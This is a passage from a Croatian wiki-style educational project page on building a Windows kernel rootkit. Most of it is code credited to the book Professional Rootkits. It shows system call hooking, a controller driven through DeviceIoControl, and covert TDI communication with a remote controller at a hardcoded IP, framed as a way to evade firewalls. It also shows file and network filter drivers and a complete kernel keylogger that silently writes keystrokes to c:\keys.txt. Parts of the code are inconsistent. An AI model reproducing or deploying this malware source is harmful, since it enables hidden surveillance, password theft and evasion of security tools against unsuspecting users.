NewSystemCallTable = MmMapLockedPages( pMyMDL, KernelMode );
if( !NewSystemCallTable )
return( STATUS_UNSUCCESSFUL );
// Potreban je ZwProtectVirtualMemory kako bi se moglo pisati u memoriju u korisničkom modu, pronalazi se pomoću funkcije findUnresolved.
OldZwProtectVirtualMemory = findUnresolved(ZwPulseEvent);
if( OldZwProtectVirtualMemory == 0 )
return( STATUS_UNSUCCESSFUL );
// Dodavanje hook-a
HOOK( ZwMapViewOfSection, NewZwMapViewOfSection, OldZwMapViewOfSection );
return( STATUS_SUCCESS );
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 4
Kao što je vidljivo korištene su sve prije navedene komponente kao što je izmjena sistemske tablice, te osnovne komponente rootkita jezgre kao što su pokazivači na funkciju koja treba biti izmijenjena OldZwMapViewOfSection i funkciju koja treba zamijeniti staru funkciju NewZwMapViewOfSection.
--Ztintor 16:52, 20. siječnja 2013. (CET)
Korisnički
Osim jezgrenog moda rotkita, postoji onaj i na korisčkoj razini (engl. User Hook). Oni funkcioniraju pomoću DLL datoteka (engl. Dynamic Link Libraries). Tamo se spremaju sve funkcije aplikacije koja se unosi u memoriju. Već spomenuta funkcija jezgre ZwMapViewOfSection zadužena je za mapiranje tih funkcija u memoriji. Jednom kad se ZwMapViewOfSection zarazi korisničkim rootkitom, moguće je kontrolirati mapiranje funkcija. Za svaku promijenjenu funkciju, potrebno je postaviti novu. Dakako, pisanje u memoriju zaštićeno je kao i u jezgri tako da je potrebna ZwProtectVirtualMemory funkcija koja štiti memoriju kako bi bilo moguće i pisati.
--Ztintor 16:19, 20. siječnja 2013. (CET)
Kontrola rootkita
Ovakva vrsta rootkita zahtjeva mogućnost komunikacije s udaljenim korisničkim aplikacijama. Te aplikacije koriste drugačiju memoriju, imaju drugačije funkcije i različita prava. Komunikacija između rootkita ne smije biti ometana zbog ovih razlika. Takva komunikacija omogućena je pomoću funkcije DeviceIoControl te je prikazana na slici 4.
{kind=link}
Pomoću aplikacije koja se koristi za kontrolu rootkita treba biti moguće taj rootkit uključiti i isključiti. To se sve postiže pomoću DeviceIoControl funkcije. Kontroler napisan u Controller.c klasi prihvaća naredbe za paljenje i gašenje te šalje GHOST_ON or GHOST_OFF na željeni uređaj.
// Controller.c
// Slanje uputa za paljene i gašenje prema MyDeviceDriver
#include <windows.h>
#include <stdio.h>
#include <io.h>
#include "IoManager.h"
void main(int argc, char *argv[])
{
HANDLE deviceHandle;
GHOST_IOCTLDATA control = { 0 };
ULONG status = 0;
if(( argc < 2 ) || ((stricmp(argv[1],"on") != 0)) && ((stricmp(argv[1],"off") !=
0)))
{
printf ("Use Controller on\n");
printf ("or Controller off\n");
return;
}
deviceHandle = CreateFile( GHOST_DEVICE_OPEN_NAME,
GENERIC_READ | GENERIC_WRITE,
0,
NULL,
OPEN_EXISTING,
FILE_ATTRIBUTE_NORMAL,
NULL);
if (deviceHandle == INVALID_HANDLE_VALUE)
{
printf ("Could not find MyDeviceDriver.\n");
return;
}
if(stricmp(argv[1],"on") == 0)
control.command = GHOST_ON;
else
control.command = GHOST_OFF;
if( DeviceIoControl(deviceHandle,
GHOST_ON_OFF_COMMAND,
&control,
sizeof(control), // input
(PVOID)&control,
sizeof(control), // output
&status,
NULL ) )
printf ("MyDeviceDriver %s.\n", control.command == GHOST_ON ? "on" : "off" );
else
printf ("DeviceIoControl failed.\n");
CloseHandle(deviceHandle);
Kod preuzet iz knjige Professional Rootkits, poglavlje 5
Iako je kontoler postavljen, to nije samo po sebi dovoljno. Potrebne su neke modifikacije u rootkitu. Nekoliko promjena napravljeno je kod funkcije DriverEntry. Dodana su dva UNICODE_STRING-a i PDEVICE_OBJECT. Oni se koriste za kreiranje kontrolnog uređaja na koji će biti poslane komande s udaljene aplikacije. IoCreateDevice je funkcija koja kreira uređaj, dok IoCreateSymbolicLink omogućava pristup uređaju koristeći GHOST_DEVICE_OPEN_NAME. Na kraju se dodaju(hook )3 MajorFunction funkcije kako bi rootkit slao IRP_MJ_CREATE, IRP_MJ_CLOSE, iIRP_MJ_DEVICE_CONTROL naredbe na novokreirani uređaj. Te naredbe definirane su u klasi ioMenager.c .
NTSTATUS DriverEntry( IN PDRIVER_OBJECT pDriverObject, IN PUNICODE_STRING
theRegistryPath )
{
DRIVER_DATA* driverData;
UNICODE_STRING deviceName = { 0 };
UNICODE_STRING deviceLink = { 0 };
PDEVICE_OBJECT pDeviceController;
// Dodavanje kontrolera uređaja
RtlInitUnicodeString( &deviceName, GHOST_DEVICE_CREATE_NAME );
IoCreateDevice( pDriverObject,
0,
&deviceName,
FILE_DEVICE_UNKNOWN,
0,
FALSE,
&pDeviceController );
RtlInitUnicodeString( &deviceLink, GHOST_DEVICE_LINK_NAME );
IoCreateSymbolicLink( &deviceLink, &deviceName );
pDriverObject->MajorFunction[IRP_MJ_CREATE] =
pDriverObject->MajorFunction[IRP_MJ_CLOSE] =
pDriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = OnDispatch;
Kod preuzet iz knjige Professional Rootkits, poglavlje 5
Zanimljiva funkcija ovdje je OnDispatch koja je implementirana u koja je također implementirana u klasi ioManager.c . Ona procesuira I/O uređaja i prosljeđuje postavke kontrole uređaja.
// ioManager.c
NTSTATUS OnDispatch( PDEVICE_OBJECT DeviceObject, PIRP Irp )
{
PIO_STACK_LOCATION irpStack;
PVOID inputBuffer;
PVOID outputBuffer;
ULONG inputBufferLength;
ULONG outputBufferLength;
ULONG ioControlCode;
NTSTATUS status;
// nastavi dalje i postavi da je zahtjev uspio
Irp->IoStatus.Status = STATUS_SUCCESS;
Irp->IoStatus.Information = 0;
irpStack = IoGetCurrentIrpStackLocation (Irp);
// Dohvaćanje spremnika
inputBuffer = Irp->AssociatedIrp.SystemBuffer;
inputBufferLength = irpStack->Parameters.DeviceIoControl.InputBufferLength;
outputBuffer = Irp->AssociatedIrp.SystemBuffer;
outputBufferLength = irpStack->Parameters.DeviceIoControl.OutputBufferLength;
// Dohvaćanje kontrole
ioControlCode = irpStack->Parameters.DeviceIoControl.IoControlCode;
switch (irpStack->MajorFunction)
{
case IRP_MJ_DEVICE_CONTROL:
status = OnDeviceControl( irpStack->FileObject, TRUE,
inputBuffer, inputBufferLength,
outputBuffer, outputBufferLength,
ioControlCode, &Irp->IoStatus, DeviceObject );
break;
}
IoCompleteRequest( Irp, IO_NO_INCREMENT );
return status;
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 5
Također je kod funkcije OnUnload potrebno dodati brisanje kontolera uređaja kreiranog u funkciji DriverEntry.
// uklanjanje kontrolera uređaja
RtlInitUnicodeString( &deviceLink, GHOST_DEVICE_LINK_NAME );
IoDeleteSymbolicLink( &deviceLink );
IoDeleteDevice( theDriverObject->DeviceObject );
DbgPrint("comint32: Device controller removed.");
Kod preuzet iz knjige Professional Rootkits, poglavlje 5
--Ztintor 16:54, 20. siječnja 2013. (CET)
Komunikacija
Komunikacija između rootkita i kontrolera vrlo je važna stvar, posebno jer je to vjerojatno najlakši način da rootkit bude otkriven. Kako bi se izbjegla detekcija, komunikacija treba biti na najnižem mogućem nivou. Na taj način vatrozid i razni drugi mehanizmi zaštite neće biti u mogućnosti otkriti rootkit. Takva vrsta komunikacije naziva se TDI (engl. Transport Driver Interface) komunikacija. Bitne rutine za komunikaciju su OpenTDIConnection, CloseTDIConnection i SendToRemoteController. Dok prve dvije otvaraju i zatvaraju vezu prema kontroleru, SendToRemoteController šalje podatke preko TDI komunikacijske veze. One su definirane u klasi commManager.c. Funkcija DeviceEntry nadograđuje se sljedećim kodom kako bi se omogućila komunikacija između rootkita i udaljenog kontrolera na niskom nivou.
// Otvara vezu prema udaljenom kontroleru
if( !NT_SUCCESS( OpenTDIConnection() ) )
{
DbgPrint("comint32: Nemoguće uspostaviti vezu.\n");
return STATUS_UNSUCCESSFUL;
}
// Informacija udaljenom kontroleru gdje se nalazimo
SendToRemoteController( "207.46.20.30" );
Kod preuzet iz knjige Professional Rootkits, poglavlje 6
Prilikom poziva OnUnload također je potrebno zatvoriti vezu prema kontroleru sljedećim kodom
// Zatvori vezu prema udaljenom kontroleru CloseTDIConnection(); Kod preuzet iz knjige Professional Rootkits, poglavlje 6
--Ztintor 16:28, 20. siječnja 2013. (CET)
Filteri
Još jedan važan element koji unapređuje rootkit su filteri. Driveri filtera koriste se kako bi komunikacija između hardvera i softvera bila bolja i slojevita. Slojevita struktura omogućava umetanje vlastitog filtera u već postojeću strukturu. Takav mehanizam omogućuje rootkitu iznimnu kontrolu nad operacijskim sustavom. Postoje datoteični filteri i mrežni filteri.
Datoteični filteri
Datoteični filteri se mogu umetnuti u strukturu uređaja za sve particije diska ili samo za jednu. Još jedan element na koji je potrebno obratiti pažnju kod datoteičnih filtera je brzi I/O. Pošto se datoteični sustav oslanja na brzi I/O, datoteični filteri moraju biti podešeni kako bi bili usklađeni s tim potrebama. Sve brze I/O funkcije implementirane u primjeru rootkita prosljeđuju aktivnu datoteku kroz funkciju filterFastIo koja se može koristiti kako bi se nadgledala brza I/O aktivnost datoteka.
Mrežni filteri
Druga vrsta filtera su već spomenuti mrežni filteri. Njihovo umetanje je nešto jednostavnije od umetanja datoteičnih filtera. Sve što je potrebno je izrada i vezanje novog uređaja na postojeću mrežnu strukturu uređaja. Iako postoje dvije vrste filtera, filtriranje nije potrebno raditi odvojeno za svaku vrstu, već je moguće sve provesti zajedno.
Rad s filterima
U klasi filterManager.c implementirane su 3 bitne funkcije za filtriranje. Prva je insertFileFilter koja se koristi za umetanje datoteičnog filtera, druga je insertNetworkFilter koja se koristi za umetanje mrežnog filtera i zadnja removeFilter koja se koristi za uklanjanje oba filtera. Ovdje je priikazana implementacija funkcije insertNetworkFilter.
// filterManager.c
NTSTATUS insertNetworkFilter(PDRIVER_OBJECT pDriverObject,
PDEVICE_OBJECT* ppOldDevice,
PDEVICE_OBJECT* ppNewDevice,
wchar_t* deviceName)
{
NTSTATUS status = STATUS_SUCCESS;
UNICODE_STRING unicodeName = { 0 };
// Kreiraj novi uređaj
status = IoCreateDevice( pDriverObject,
0,
NULL,
FILE_DEVICE_UNKNOWN,
0,
TRUE,
ppNewDevice );
if( !NT_SUCCESS( status ) )
return status;
// Inicijaliziraj novi uređaj
((PDEVICE_OBJECT)(*ppNewDevice))->Flags |= DO_DIRECT_IO;
// Poveži novi uređaj
RtlInitUnicodeString( &unicodeName, deviceName );
status = IoAttachDevice( *ppNewDevice,
&unicodeName,
ppOldDevice );
// Zaustavi odčitavanje ako učitavanje nije uspjelo
if( !NT_SUCCESS( status ) )
{
IoDeleteDevice( *ppNewDevice );
*ppNewDevice = NULL;
}
return status;
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 7
Funkcija prima dva pokazivača i ime uređaja. Prvi korak je kreacija uređaja, a zatim njegova inicijalizacija. Na kraju se uređaj veže na postojeću mrežnu strukturu uređaja. Funkcija insertFileFilter se ne razlikuje mnogo, koraci su isti samo je implementacija prilagođena datoteičnim filterima. Najjednostavnije je uklanjanje filtera koje je implementirano pomoću prikazane funkcije removeFilter.
void removeFilter(PDEVICE_OBJECT* ppOldDevice,
PDEVICE_OBJECT* ppNewDevice)
{
IoDetachDevice( *ppOldDevice );
IoDeleteDevice( *ppNewDevice );
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 7
U glavnom programu stvorena su 4 nova globalna pokazivača na uređaje oldFileSysDevice, newFileSysDevice, oldNetworkDevice, newNetworkDevice. Oni se inicijaliziraju u funkciji DriverEntry preko poziva na insertFileFilter i insertNetworkFilter.
// umetni filtere
if( !NT_SUCCESS( insertFileFilter( pDriverObject,
&oldFileSysDevice,
&newFileSysDevice,
L"\\DosDevices\\C:\\") ) )
DbgPrint("comint32: Nije moguće umetnuti datoteični filter");
if( !NT_SUCCESS( insertNetworkFilter( pDriverObject,
&oldNetworkDevice,
&newNetworkDevice,
L"\\Device\\Tcp") ) )
DbgPrint("comint32: Nije moguće umetnuti mrežni filter");
Uklanjaju se u funkciji OnUnload na sljedeći način:
// ukloni filtere
if( newFileSysDevice )
removeFilter( &oldFileSysDevice, &newFileSysDevice );
if( newNetworkDevice )
removeFilter( &oldNetworkDevice, &newNetworkDevice );
Kod preuzet iz knjige Professional Rootkits, poglavlje 7
Uz navedeno, potrebno je sve pDriverObject->FastIoDispatch članove postaviti na novokreiranog dispačera. On služi za procesuiranje I/O te su kroz njega preusmjerene sve funkcije, a njegova implementacija prikazana je ranije u klasi IoManager.c.
--Ztintor 16:31, 20. siječnja 2013. (CET)
Key logging
Sve što smo dosada obradili je bilo najviše da pratimo ili blokiramo neki promet. Sljedeće ćemo pokazati mogućnost logiranja unosa sa tipkovnice bez korisničkog znanja o tome. Da bismo to izveli potrebno je raditi operacije nad datotečnim sustavom te pratiti rad tipkovnice. Te dvije operacije rade na različitim nivoima procesiranja. Operacije nad datotečnim sustavom zahtijevaju pasivni nivo procesiranja dok praćenje rada tipkovnice zahtjeva obavještajni nivo procesiranja. Operacija nad datotekama na obavještajnom nivou procesiranja bi uzrokovale pad sistema te je zbog toga potrebno implementirati dretvu, medij za pohranu podataka i sinkronizacijsku metodu da ne bi došlo do takve pogreške.
Rootkit koji razvijamo u ovome projektu je implementiran kao upravljački program uređaja jezgre i ti upravljački programi uređaja se pokreću na raznim razinama procesiranja.
Prošli primjeri su jednostavno presretali promet dok logiranje unosa sa tipkovnice dodaje kompleksnost ulazno izlaznih rutina te dodaje mogućnost zapisivanja unosa u file što još dosada nismo imali. Podlogu sa izradu logera već imamo iz prošlih poglavlja kao što je kreiranje novih uređaja te procesiranje ulazno izlaznih operacija tih uređaja.
Da bismo dobili tipku koja je pritisnuta, upravljački program sa višeg nivoa mora poslati dalje prazni IRP i čekati tipku. Kada je IRP završen podaci o pritisnutoj tipki se šalju nazad na stog.
Dizajn stoga upravljačkog programa tipkovnice zahtjeva da loger tipkovnice se veže na stog te čeka prazni IRP od upravljačkog programa više razine. Loger zatim mora registrirati svoju povratni poziv rutine prije nego što proslijedi prazni IRP dalje kroz stog. Zatim kada je pozvan povratni poziv loger tipkovnice može pogledati podatak i pritisnutoj tipki i poslati je uređaju koji je kreirao originalni IRP. To se treba napraviti za svaku pritisnutu tipku koja se prosljeđuje dalje na stog upravljačkog programa tipkovnice.
IRP metoda za presijecanje predstavlja specijalni problem kada je rookit iščitan. Kada je iščitan registrirani povratni poziv rutine će biti maknut iz memorije ali postoje velike šanse da je prazni IRP već registrirao ovu rutinu da se pozove prilikom pritiska sljedeće tipke. To će najvjerojatnije rezultirati padom cijelog sistema. Da bi se taj problem izbjegao rootkit mora napraviti svoj specijalni IRP te ga asocirati sa presijecanim IRP-ovima. Zatim te specijalne IRP-ove treba poslati umjesto IRP-ova koje je presreo. Ovo omogućava rootkitu da prekine sve IRP-ove koji su još u tijeku kada je rookti iščitan. Sljedeća slika pokazuje ubacivanje key loggera.
{kind=link}
Kao što je ranije napomenuto praćenje pritisnutih tipki može se pozvati na obavještajnom nivou procesiranja dok se ulazno izlazne operacije nad datotekama mogu obavljati na pasivnom nivou procesiranja. Zbog toga je potrebno podatke i pritisnutoj tipki poslati u privremeni spremnik koju prati dretva koja je na pasivnom nivou procesiranja. Dretva koja čita također zahtjeva sinkronizaciju sa rutom koja zapisuje. Sinkronizaciju key loggera možemo vidjeti na sljedećoj slici.
{kind=link}
--Filip.sostarec 23:56, 20. siječnja 2013. (CET)
Na sljedećoj slici možemo vidjeti kako se procesiraju tipke.
{kind=link}
Mapiranje kodova tipki se obavlja pomoću keyMap te shiftKeyMap polja. Procesiranje tipki se obavlja pomoću GetKey funkcije koja se poziva iz dretve za bilježenje kad god je podataka o tipki dostupan. Zajedno ove komponente pretvaraju podatke i pritisnutoj tipki u tekst. U nastavku možemo vidjeti najvažnije dijelove koda koji stoje iz rada key loggera. U datoteku Ghost.c dodane su 3 globalne varijable te jedan include.
#include "keyManager.h"
KEYBOARD_STRUCT keyboardData = {0};
PDEVICE_OBJECT oldKeyboardDevice = NULL;
PDEVICE_OBJECT newKeyboardDevice = NULL;
Kod preuzet iz knjige Professional Rootkits, poglavlje 8
Globalna varijabla key data je struktura za procesiranje pritisnutih tipki. Globalne varijable oldKeyboardDevice i newKeyboardDevice služe za unos na stog uređaja. U onUnload funkciju unesene su sljedeće linije.
if( newKeyboardDevice )
{
removeFilter( &oldKeyboardDevice, &newKeyboardDevice );
StopKeylogger();
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 8
Gornji programski odsječak omogućava da se filter uređaja tipkovnice iščita te da se dretva za key logger zaustavi. Sljedeći programski odsječak ubacuje filter tipkovnice što također pokreće dretvu za praćenje unosa. GUID_DEVINTERFACE_KEYBOARD služi da bismo od operacijskog sustava saznali ime uređaja tipkovnice. Ako funkcija IoGetDeviceInterfaces ima uspješan povrat prvi unos u SymbolicLinkList se uzima kao ime uređaja za tipkovnicu.
PWSTR SymbolicLinkList;
if( NT_SUCCESS( IoGetDeviceInterfaces( &GUID_DEVINTERFACE_KEYBOARD, NULL, 0,
&SymbolicLinkList ) ) )
{
if( !NT_SUCCESS( insertKeyboardFilter( pDriverObject,
&oldKeyboardDevice,
&newKeyboardDevice,
SymbolicLinkList) ) )
DbgPrint("comint32: Could not insert keyboard filter");
ExFreePool( SymbolicLinkList );
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 8
Datoteka keyManager.h je header datoteka u kojoj su strukture i prototipovi funkcija koje će se koristiti u datoteci keyManager.c.
//keyManager.h
#ifndef _KEY_MANAGER_H_
#define _KEY_MANAGER_H_
typedef struct _KEY_DATA
{
LIST_ENTRY ListEntry;
char KeyData;
char KeyFlags;
}KEY_DATA;
typedef struct _KEY_STATE
{
BOOL CtrlKey;
BOOL AltKey;
BOOL ShiftKey;
}KEY_STATE;
typedef struct _KEYBOARD_STRUCT
{
PETHREAD threadObject;
BOOL terminateFlag;
KEY_STATE keyState;
HANDLE hLogFile;
KSEMAPHORE keySemaphore;
KSPIN_LOCK keyLock;
LIST_ENTRY keyList;
KSPIN_LOCK irpLock;
LIST_ENTRY irpList;
}KEYBOARD_STRUCT;
#define NUL 0
#define SPACE 1
#define ENTER 2
#define LSHIFT 3
#define RSHIFT 4
#define CTRL 5
#define ALT 6
NTSTATUS OnKeyboardRead(IN PDEVICE_OBJECT pDeviceObject,
IN PIRP pIrp,
PIO_STACK_LOCATION irpStack );
NTSTATUS OnReadCompletion(IN PDEVICE_OBJECT pDeviceObject,
IN PIRP pIrp,
IN PVOID Context);
void OnCancel( IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp );
NTSTATUS InitializeLogThread(IN PDRIVER_OBJECT pDriverObject);
VOID KeyLoggerThread(PVOID StartContext);
void GetKey(KEY_DATA* keyData, char* key);
void StartKeylogger(PDRIVER_OBJECT pDriverObject);
void StopKeylogger(PDEVICE_OBJECT* ppOldDevice,
PDEVICE_OBJECT* ppNewDevice );
#endif
Kod preuzet iz knjige Professional Rootkits, poglavlje 8
Najvažnija datoteka za key logger je keyManager.c. U ovoj datoteci se pokreće i stopira dretva za praćenje unosa i u njoj se dekodiraju podaci o unesenoj tipki prije nego što se zapišu u log file.
//keyManager.c
#include "ntddk.h"
#include "Ghost.h"
#include "keyManager.h"
#include "ntddkbd.h"
extern KEYBOARD_STRUCT keyboardData;
extern PDEVICE_OBJECT oldKeyboardDevice;
char keyMap[84] = {NUL,NUL,'1','2','3','4','5','6','7','8',
'9','0','-','=',NUL,NUL,'q','w','e','r',
't','y','u','i','o','p','[',']',ENTER,CTRL,
'a','s','d','f','g','h','j','k','l',';',
'\,'`',LSHIFT,'\\','z','x','c','v','b','n',
'm',',','.','/',RSHIFT,NUL,ALT,SPACE,NUL,NUL,
NUL,NUL,NUL,NUL,NUL,NUL,NUL,NUL,NUL,NUL,
NUL,'7','8','9',NUL,'4','5','6',NUL,'1',
'2','3','0'};
char shiftKeyMap[84] = {NUL,NUL,'!','@','#','$','%','^','&','*',
'(',')','_','+',NUL,NUL,'Q','W','E','R',
'T','Y','U','I','O','P','{','}',ENTER,NUL,
'A','S','D','F','G','H','J','K','L',':',
'"','~',LSHIFT,'|','Z','X','C','V','B','N',
'M','<','>','?',RSHIFT,NUL,NUL,SPACE,NUL,NUL,
NUL,NUL,NUL,NUL,NUL,NUL,NUL,NUL,NUL,NUL,
NUL,'7','8','9',NUL,'4','5','6',NUL,'1',
'2','3','0'};
NTSTATUS OnKeyboardRead( PDEVICE_OBJECT pDeviceObject,
PIRP Irp,
PIO_STACK_LOCATION irpStack )
{
NTSTATUS status;
PIRP newIrp;
PIO_STACK_LOCATION newirpStack;
// create new irp
newIrp = IoAllocateIrp( pDeviceObject->StackSize, FALSE );
IoSetNextIrpStackLocation( newIrp );
newirpStack = IoGetCurrentIrpStackLocation( newIrp );
newIrp->AssociatedIrp.SystemBuffer = Irp->AssociatedIrp.SystemBuffer;
newIrp->RequestorMode = KernelMode; // Irp->RequestorMode;
newIrp->Tail.Overlay.Thread = Irp->Tail.Overlay.Thread;
newIrp->Tail.Overlay.OriginalFileObject = Irp->Tail.Overlay.OriginalFileObject;
newIrp->Flags = Irp->Flags;
newirpStack->MajorFunction = IRP_MJ_READ;
newirpStack->MinorFunction = irpStack->MinorFunction;
newirpStack->Parameters.Read = irpStack->Parameters.Read;
newirpStack->DeviceObject = pDeviceObject;
newirpStack->FileObject = irpStack->FileObject;
newirpStack->Flags = irpStack->Flags;
newirpStack->Control = 0;
IoCopyCurrentIrpStackLocationToNext( newIrp );
IoSetCompletionRoutine( newIrp, OnReadCompletion, Irp, TRUE, TRUE, TRUE );
// save old irp
Irp->Tail.Overlay.DriverContext[0] = newIrp;
ExInterlockedInsertHeadList( &keyboardData.irpList,
&Irp->Tail.Overlay.ListEntry,
&keyboardData.irpLock );
// set cancel routine to allow driver to unload
IoSetCancelRoutine( Irp, OnCancel );
// pass new irp in place of old irp
status = IoCallDriver( oldKeyboardDevice, newIrp );
if( status == STATUS_PENDING )
return status;
status = Irp->IoStatus.Status;
IoCompleteRequest( Irp, IO_KEYBOARD_INCREMENT );
return status;
}
NTSTATUS OnReadCompletion(IN PDEVICE_OBJECT pDeviceObject,
IN PIRP pIrp,
IN PVOID Context)
{
PIRP origIrp;
KIRQL aIrqL;
BOOL found = FALSE;
if( pIrp->Cancel )
{
// driver unloading
IoFreeIrp( pIrp );
return STATUS_MORE_PROCESSING_REQUIRED;
}
// get original irp
origIrp = (PIRP)Context;
// find and delete the original irp
KeAcquireSpinLock( &keyboardData.irpLock, &aIrqL );
{
PLIST_ENTRY listEntry;
listEntry = keyboardData.irpList.Flink;
while( (listEntry != &origIrp->Tail.Overlay.ListEntry)
&& (listEntry != &keyboardData.irpList) )
{
listEntry = listEntry->Flink;
}
found = (listEntry == &origIrp->Tail.Overlay.ListEntry);
if( found )
RemoveEntryList( &origIrp->Tail.Overlay.ListEntry );
}
KeReleaseSpinLock( &keyboardData.irpLock, aIrqL );
// propagate irp if pending
if( pIrp->PendingReturned )
{
IoMarkIrpPending( pIrp );
if( found )
IoMarkIrpPending( origIrp );
}
// process the key
if( pIrp->IoStatus.Status == STATUS_SUCCESS )
{
int i;
int numKeys;
PKEYBOARD_INPUT_DATA keys;
KEY_DATA* keyData;
keys = (PKEYBOARD_INPUT_DATA)pIrp->AssociatedIrp.SystemBuffer;
numKeys = pIrp->IoStatus.Information / sizeof(KEYBOARD_INPUT_DATA);
for( i = 0; i < numKeys; i++ )
{
// get key
keyData = (KEY_DATA*)ExAllocatePool( NonPagedPool, sizeof(KEY_DATA) );
keyData->KeyData = (char)keys[i].MakeCode;
keyData->KeyFlags = (char)keys[i].Flags;
// give key to key queue
ExInterlockedInsertTailList( &keyboardData.keyList,
&keyData->ListEntry,
&keyboardData.keyLock );
// tell logging thread to read key queue
KeReleaseSemaphore( &keyboardData.keySemaphore, 0, 1, FALSE );
}
}
if( found )
{
// complete the orig irp
origIrp->IoStatus.Status = pIrp->IoStatus.Status;
origIrp->IoStatus.Information = pIrp->IoStatus.Information;
IoSetCancelRoutine( origIrp, NULL );
if( pIrp->PendingReturned )
IoCompleteRequest( origIrp, IO_KEYBOARD_INCREMENT );
}
// free the new irp
IoFreeIrp( pIrp );
return STATUS_MORE_PROCESSING_REQUIRED;
}
void GetKey(KEY_DATA* keyData, char* key)
{
char mappedKey;
// map the key code into a key
mappedKey = keyMap[keyData->KeyData];
// process mapped key
switch( mappedKey )
{
case CTRL:
if( keyData->KeyFlags == KEY_MAKE )
keyboardData.keyState.CtrlKey = TRUE;
else
keyboardData.keyState.CtrlKey = FALSE;
break;
case ALT:
if( keyData->KeyFlags == KEY_MAKE )
keyboardData.keyState.AltKey = TRUE;
else
keyboardData.keyState.AltKey = FALSE;
break;
case LSHIFT:
if( keyData->KeyFlags == KEY_MAKE )
keyboardData.keyState.ShiftKey = TRUE;
else
keyboardData.keyState.ShiftKey = FALSE;
break;
case RSHIFT:
if( keyData->KeyFlags == KEY_MAKE )
keyboardData.keyState.ShiftKey = TRUE;
else
keyboardData.keyState.ShiftKey = FALSE;
break;
case ENTER:
if(( keyboardData.keyState.AltKey != TRUE ) &&
( keyData->KeyFlags == KEY_BREAK ))
{
key[0] = 0x0D;
key[1] = 0x0A;
}
break;
case SPACE:
if(( keyboardData.keyState.AltKey != TRUE ) &&
( keyData->KeyFlags == KEY_BREAK ))
key[0] = 0x20;
break;
default:
if(( keyboardData.keyState.AltKey != TRUE ) &&
( keyboardData.keyState.CtrlKey != TRUE ) &&
( keyData->KeyFlags == KEY_BREAK ))
{
if(( mappedKey >= 0x21 ) && ( mappedKey <= 0x7E ))
{
if( keyboardData.keyState.ShiftKey == TRUE )
key[0] = shiftKeyMap[keyData->KeyData];
else
key[0] = mappedKey;
}
}
break;
}
}
NTSTATUS InitializeLogThread(IN PDRIVER_OBJECT pDriverObject)
{
HANDLE hThread;
NTSTATUS status;
keyboardData.terminateFlag = FALSE;
status = PsCreateSystemThread( &hThread,
(ACCESS_MASK)0,
NULL,
(HANDLE)0,
NULL,
KeyLoggerThread,
NULL );
if( !NT_SUCCESS( status ) )
{
DbgPrint("comint32: Failed to create key log thread");
return status;
}
ObReferenceObjectByHandle( hThread,
THREAD_ALL_ACCESS,
NULL,
KernelMode,
(PVOID*)&keyboardData.threadObject,
NULL );
ZwClose( hThread );
return status;
}
VOID KeyLoggerThread(PVOID StartContext)
{
char key[3];
NTSTATUS status;
PLIST_ENTRY pListEntry;
KEY_DATA* keyData;
while( TRUE )
{
// wait for a key
KeWaitForSingleObject( &keyboardData.queueSemaphore,
Executive,
KernelMode,
FALSE,
NULL );
pListEntry = ExInterlockedRemoveHeadList( &keyboardData.queueList,
&keyboardData.queueLock );
if( keyboardData.terminateFlag == TRUE )
PsTerminateSystemThread( STATUS_SUCCESS );
// get base address of instance
keyData = CONTAINING_RECORD( pListEntry, KEY_DATA, ListEntry );
// convert scan code to key
key[0] = key[1] = key[2] = 0;
GetKey( keyData, key );
if( key[0] != 0 )
{
if(keyboardData.hLogFile != NULL)
{
IO_STATUS_BLOCK io_status;
status = ZwWriteFile(keyboardData.hLogFile,
NULL,
NULL,
NULL,
&io_status,
&key,
strlen(key),
NULL,
NULL);
}
}
}
return;
}
void StartKeylogger(PDRIVER_OBJECT pDriverObject)
{
IO_STATUS_BLOCK statusBlock;
OBJECT_ATTRIBUTES attributes;
STRING ansiName;
UNICODE_STRING unicodeName;
CCHAR asciiName[64] = "\\DosDevices\\c:\\keys.txt";
// initialize keyboardData
InitializeLogThread( pDriverObject );
InitializeListHead( &keyboardData.keyList );
KeInitializeSpinLock( &keyboardData.keyLock );
KeInitializeSemaphore( &keyboardData.keySemaphore, 0 , MAXLONG );
InitializeListHead( &keyboardData.irpList );
KeInitializeSpinLock( &keyboardData.irpLock );
// create key log
RtlInitAnsiString( &ansiName, asciiName );
RtlAnsiStringToUnicodeString( &unicodeName, &ansiName, TRUE );
InitializeObjectAttributes( &attributes,
&unicodeName,
OBJ_CASE_INSENSITIVE,
NULL,
NULL );
ZwCreateFile( &keyboardData.hLogFile,
GENERIC_WRITE,
&attributes,
&statusBlock,
NULL,
FILE_ATTRIBUTE_NORMAL,
0,
FILE_OPEN_IF,
FILE_SYNCHRONOUS_IO_NONALERT,
NULL,
0 );
RtlFreeUnicodeString( &unicodeName );
DbgPrint("comint32: Log thread started");
}
void StopKeylogger( PDEVICE_OBJECT* ppOldDevice,
PDEVICE_OBJECT* ppNewDevice )
{
KIRQL irql;
LIST_ENTRY forwarding_list;
IoDetachDevice( *ppOldDevice );
InitializeListHead( &forwarding_list );
// cancel pending irps
KeAcquireSpinLock( &keyboardData.irpLock, &irql );
{
PLIST_ENTRY listEntry;
listEntry = keyboardData.irpList.Flink;
while( listEntry != &keyboardData.irpList )
{
PIRP newIrp, Irp;
Irp = (PIRP)(CONTAINING_RECORD( listEntry, IRP, Tail.Overlay.ListEntry ));
newIrp = (PIRP)(Irp->Tail.Overlay.DriverContext[0]);
// must advance listEntry before unlinking
listEntry = listEntry->Flink;
if( newIrp )
{
// cancel created irp
if( IoCancelIrp( newIrp ) )
{
// add original irp to forwarding list
Irp->Tail.Overlay.DriverContext[0] = NULL;
IoSetCancelRoutine( Irp, NULL );
RemoveEntryList( &Irp->Tail.Overlay.ListEntry );
InsertHeadList( &forwarding_list, &Irp->Tail.Overlay.ListEntry );
}
}
}
}
KeReleaseSpinLock( &keyboardData.irpLock, irql );
// forward original irps
while( !IsListEmpty( &forwarding_list ) )
{
PLIST_ENTRY listEntry;
PIRP Irp;
listEntry = RemoveHeadList( &forwarding_list );
Irp = (PIRP)(CONTAINING_RECORD( listEntry, IRP, Tail.Overlay.ListEntry ));
IoSkipCurrentIrpStackLocation( Irp );
IoCallDriver( oldKeyboardDevice, Irp );
}
